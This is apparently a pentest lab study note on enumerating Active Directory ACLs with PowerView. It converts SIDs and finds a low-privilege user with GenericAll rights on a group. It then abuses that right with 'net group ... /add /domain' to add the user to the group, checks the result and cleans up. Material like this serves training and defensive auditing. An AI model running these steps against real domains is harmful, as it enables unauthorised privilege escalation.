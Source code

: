 ```yaml
---
description: >-
  Active Directory is a hierarchical database that contains Active Directory
  Objects. There include: users, computers, applications, printers and shared
  folders
---
```


# Enumerating Object Permissions



## Recap

When a user tries to access an Active Directory Object it sends it's access token, which consists of user identity and permissions. The target object then checks the access token against a list of known permissions (Access Control List). If the user is in the ACL, access is granted.

### Permissions&#x20;

Active Directory has a wealth of permissions, but from an attacker standpoint we are focused on the following:

```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

## Enumerating ACE's - PowerView

_Access Control Entries_ (ACE) make up the Access Control Lists, they are themselves an Active Directory Object. We can query them with PowerView.

```powershell
PS C:\Tools> Get-ObjectAcl -Identity stephanie

...
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104
ActiveDirectoryRights  : ReadProperty
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 4c164200-20c0-11d0-a768-00aa006e0529
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 16
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
...
```

## Convert SID's - PowerView

We're interesting in: <mark style="color:orange;">ObejctSID</mark>, <mark style="color:orange;">ActiveDirectoryRights</mark>, & <mark style="color:orange;">SecurityIdentifier</mark>.&#x20;

We can use PowerView to convert this SID to plaintext:

```powershell
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
CORP\stephanie
```

```powershell
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
CORP\RAS and IAS Servers
```



## Converting All SID's from an Object- PowerView

Above we fetched all SID's for a user, this can be tedious. Instead let's fetch all SID's for a AD Object. We will query "<mark style="color:orange;">Management Department</mark>" with "<mark style="color:orange;">GerericAll</mark>" Permissions.

### Fetch all SID's

```powershell
PS C:\Tools> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-1987370270-658905905-1781884369-519             GenericAll
```

### Convert All SID's

```powershell
PS C:\Tools> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```

<mark style="color:red;">NOTE:</mark> We see that <mark style="color:orange;">stephanie</mark> has "<mark style="color:orange;">GenericAll</mark>" permissions for this Object, a low-level user should not have these types of permissions so it must be a configuration mistake!

<mark style="color:green;">**GenericAll**</mark>** **_**is the most powerfull ACL in Active Directory.**_

##

## Exploiting Vulnerability

### Adding New User

Above we discovered a misconfiguration in the "Management Department" AD Object, but there's only one user that has access: Jen. We can use stephanies permissions to add herself to the Group.

```powershell
PS C:\Tools> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

### Verify

We can verify that stephanie was indeed added with PowerView, alternatively net.exe will work.

```powershell
PS C:\Tools> Get-NetGroup "Management Department" | select member

member
------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```

### Cleanup

After we're done doing our business we always want to cleanup. Let's delete Stephanie from the Group.

```powershell
PS C:\Tools> net group "Management Department" stephanie /del /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

